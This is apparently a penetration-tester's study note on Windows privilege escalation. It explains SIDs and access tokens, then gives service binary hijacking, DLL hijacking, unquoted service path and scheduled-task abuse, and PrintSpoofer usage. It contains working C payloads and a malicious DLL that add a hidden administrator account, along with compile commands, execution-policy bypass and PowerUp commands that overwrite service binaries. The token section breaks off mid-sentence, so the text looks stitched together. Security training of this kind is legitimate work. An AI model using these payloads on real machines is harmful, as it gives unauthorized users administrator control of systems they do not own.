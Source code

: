 # Understanding Windows Privileges and Access Control Mechanisms

Privileges define what a Windows account can do (e.g., modify files, add users). Windows uses several mechanisms to control this:

## Security Identifiers (SID)

- Unique values that identify users, groups, and other principals.
- Generated by the Local Security Authority (LSA) for local accounts or by a Domain Controller (DC) for domain accounts.
- Structure: `S-R-X-Y`
    
    - `S`: SID literal
        
    - `R`: Revision (always 1)
        
    - `X`: Identifier authority (commonly 5 for NT Authority)
        
    - `Y`: Sub-authorities (domain ID + Relative ID)
        

Example local user SID:

```
S-1-5-21-1336799502-1441772794-948155058-1001
```

Well-known SIDs:

```
S-1-0-0                       Nobody
S-1-1-0                       Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```

## Access Tokens

- Created at authentication to define a user’s **security context**.
- Contain: user SID, group SIDs, privileges, and scope info.
- **Primary token**: assigned to processes/threads.
- **Impersonation token**: lets a thread act under

# Hidden in Plain Sight

```powershell
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

# Service Binary Hijacking
## PowerUp

Another useful tool to check privilege escalation vector is [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We can upload it on the victim's machine and then use it to gain knowledge and exploit the privileges misconfiguration on the services. First, we enable the PowerShell scripting capability.

```powershell
powershell -ep bypass
```

Then we enable PowerUp

```powershell
. .\PowerUp.ps1
```

To list modifiable service we use

```powershell
Get-ModifiableServiceFile
```

Once we spot an interesting service, we can try to abuse it with

```powershell
Install-ServiceBinary -Name '<SERVICENAME>'
```

This will create the admin user `john` with password `Password123!`. To log-in with the created user we can restart the service (if we have the correct permissions and PowerUp.ps1 automatically uses the right arguments). Eventually we can restart the machine in order to have all services restarted. We also must notice that if the service require some additional configurations, for example passing a configuration file, the PowerUp.ps1 script will fail and we must exploit manually the privilege escalation, setting the right path to the configurations of the service (eg: mysql).

If we have to manually load a custom exploit into the service we can directly write the C code and compile it for our needs

```c
#include <stdlib.h>

int main ()
{
  int payload;
  
  payload = system ("net user john Password123! /add");
  payload = system ("net localgroup administrators john /add");
  
  return 0;
}
```

And then compile it with

```shell
x86_64-w64-mingw32-gcc payload.c -o payload.exe
```

# Service DLL Hijacking

DLL are the specular 'Shared Object' on Linux. They are libraries that provide functionalities for executable programs. With the program [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) we can monitor program calls. If we find that a program calls a DLL that is missing, it may be replaced (if we have the correct read/write permissions) by our malicious DLL. We can craft the DLL following [Microsoft's guidelines](https://learn.microsoft.com/it-it/troubleshoot/windows-client/deployment/dynamic-link-library) and insert into the case `DLL_PROCESS_ATTACHED` our code. The code can be similar to the previous code for the manual privilege escalation using Windows services.

This is the order Windows search for DLLs

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

The following C program can be used to exploit a missing DLL

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int payload;
        payload = system ("net user john Password123! /add");
        payload = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

We will then compile it on the Linux machine with the `--shared` option and we load it in the Windows machine **in the path and with the name that Windows expect the DLL to have**. Obviously this works only if we have the **WRITE** permission on that files.

```shell
x86_64-w64-mingw32-gcc calledDll.cpp --shared -o calledDll.dll
```

Transfer the file and restart the service with

```powershell
Restart-Service <SERVICENAME>
```

And we will be able to execute a shell as admin with the user john. We could not be able to log-in via RDP because the user may not be in the RDP group.

# Unquoted Service Paths

When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is). In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

We find unquoted paths with the command

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

We must check if we have write permissions on the executable in order to replace it with a new one.

```powershell
icacls "C:\Program Files\Enterprise Apps\path\to\service.exe"
```

Then if we have permission on the service we can start or stop it with `Start-Service` or `Stop-Service` command. Once we got the paths we can use PowerUp.ps1 for exploiting the service. This means the service will be replaced with a malicious exe.

```powershell
Get-UnquotedService
powershell -ep bypass
. .\PowerUp.ps1
```

And finally we run the command to overwrite the service with

```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

Now restarting the service will grant us an Administrator account with user john and Password123! as credentials

```powershell
Restart-Service GammaService
```

# Scheduled Tasks

If a task is executed periodically, we can exploit the called program if we have write permissions on it. To seek for scheduled tasks we can run.

```powershell
schtasks /query /fo LIST /v
```

Eventually we can use `findstr` if we want to search for something specific. After that we can replace the program with a simple .exe that creates a new admin user.

# Using exploits

We can use multiple exploits for Windows, depending on the privileges we got on the system. An example could be [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe). We could serve it on the victim machine. If we have `SeImpersonatePrivilege` privilege displayable with `whoami /priv` we could gain Admin privileges with

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

There is a wide range of this exploits. We can use the whole [Potato Family](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) and perform a Privilege Escalation. A real-life scenario of a Windows privilege escalation could be exploiting the [`SeBackupPrivilege`](https://juggernaut-sec.com/sebackupprivilege).